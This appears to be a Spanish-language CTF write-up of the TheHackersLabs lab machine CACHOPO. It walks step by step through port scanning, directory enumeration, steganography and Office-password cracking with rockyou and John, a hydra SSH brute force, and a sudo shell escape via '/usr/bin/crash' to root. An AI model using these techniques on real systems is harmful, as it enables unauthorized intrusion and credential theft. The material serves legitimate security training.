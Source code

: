 # <p align="center">Laboratorio de Ciberseguridad: Resolución de la Máquina CACHOPO 🧠</p>

<p align="center">🖥️ **Plataforma: TheHackersLabs** 🖥️</p>

---

<p align="center">
  <img src="Imagenes/GRUPO URTG.png">
</p>

---

## <p align="center">Objetivo del Laboratorio</p>

El propósito de este ejercicio es simular un entorno de intrusión controlada mediante técnicas ofensivas: reconocimiento activo, enumeración de servicios, análisis de archivos y escalada de privilegios. Trabajaremos con la máquina **CACHOPO**, la cual representa un entorno vulnerable realista dentro de una red aislada.

---

## 🚀 Inicio del Entorno y Reconocimiento de Red

1. 🔌 **Ejecución de la máquina CACHOPO**  
   - IP asignada: `172.20.10.2`

2. ✅ **Validación de conectividad entre máquinas**
   ```bash
   ping 172.20.10.2
   ```

3. 🔎 **Escaneo de puertos expuestos**
   ```bash
   sudo nmap 172.20.10.2
   ```
   > Se detectan puertos abiertos: `22 (SSH)` y `80 (HTTP)`

---

## 🌐 Enumeración del Servicio Web

1. 🔍 **Acceso al sitio desde el navegador**
2. 🗂️ **Exploración de directorios ocultos con Gobuster**
   ```bash
   gobuster dir -u http://172.20.10.2 -w /usr/share/wordlists/dirbuster/...
   ```
   > Primer escaneo devuelve códigos 301 (redirección), por lo que se ajusta el comando.

3. 🔐 **Segunda ejecución detecta códigos 403 (acceso denegado)**:
   - `.htaccess`, `.htpasswd`, `/server-status`

4. 🛡️ **Escaneo con Nikto revela dominio virtual:**
   ```
   http://cachopo.thl
   ```

5. 🛠️ **Solución: añadir dominio al archivo de hosts**
   ```bash
   echo "172.20.10.2 cachopo.thl" >> /etc/hosts
   ```

---

## 🖼️ Análisis de Imagen y Esteganografía

1. 📥 **Descarga de imagen desde el sitio**
2. 🔍 **Verificación de metadatos**
   ```bash
   exiftool cachopo.jpg
   ```

3. 🔐 **Intento de extracción con steghide**
   ```bash
   steghide extract -sf cachopo.jpg
   ```

4. 🔓 **Ataque por diccionario con stegcracker**
   ```bash
   stegcracker cachopo.jpg /usr/share/wordlists/rockyou.txt
   ```
   > Contraseña encontrada: `doggies`

5. 📂 **Extracción del archivo oculto**
   ```bash
   steghide extract -sf cachopo.jpg -p doggies
   ```

---

## 📁 Descubrimiento de Archivo Protegido

1. 🌐 **Acceso a `/mycachopo` → archivo `cocineros.txt`**
2. 🔍 **Análisis del archivo**
   ```bash
   file cocineros.txt
   ```
   > Resultado: Formato cifrado CDFV2

3. 📝 **Renombrar para apertura como documento**
   ```bash
   mv cocineros.txt cocineros.doc
   libreoffice cocineros.doc
   ```

4. 🔐 **Ataque de contraseña con John the Ripper**
   ```bash
   python3 /usr/share/john/office2john.py cocineros.doc > hash.txt
   john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
   ```
   > Contraseña: `horse1`

5. 🧑‍💻 **Contenido recuperado**: usuarios posibles → `Sofia`, `Carlos`, `Luis`

---

## 🛠️ Ataque por Fuerza Bruta (SSH)

1. 🧾 **Crear archivo de usuarios**
   ```bash
   echo -e "Sofia\nCarlos\nLuis" > user.txt
   ```

2. 🔓 **Ejecutar hydra**
   ```bash
   hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ssh://172.20.10.2
   ```
   > Acceso válido: `carlos : [contraseña descubierta]`

3. 🖥️ **Ingreso al sistema**
   ```bash
   ssh carlos@172.20.10.2
   ```

---

## 🔝 Escalada de Privilegios

1. 🔍 **Verificación de permisos sudo**
   ```bash
   sudo -l
   ```
   > El usuario puede ejecutar `/usr/bin/crash` como root sin contraseña

2. 🚨 **Explotación del binario crash**
   ```bash
   sudo /usr/bin/crash
   !sh
   ```

3. ✅ **Confirmación de acceso root**
   ```bash
   whoami
   # root
   ```

---

## 🧾 Conclusiones

- ✅ La máquina **CACHOPO** permitió aplicar múltiples técnicas de pentesting en un solo flujo.
- 🔧 Se demostró cómo un binario con permisos mal gestionados puede convertirse en un vector de escalada.
- 🧠 El ejercicio integró herramientas clave: `nmap`, `gobuster`, `nikto`, `steghide`, `john`, `hydra`, y `sudo`.

---

## 📚 Referencias

- https://curiosidadesdehackers.com/resolucion-de-la-maquina-cachopo/
- https://medium.com/@D4nYeD/plataforma-thehackerslabs-ctf-write-up-cachopo-f84b11198dd0
- `man nmap`, `man steghide`, `man john`, `man sudo
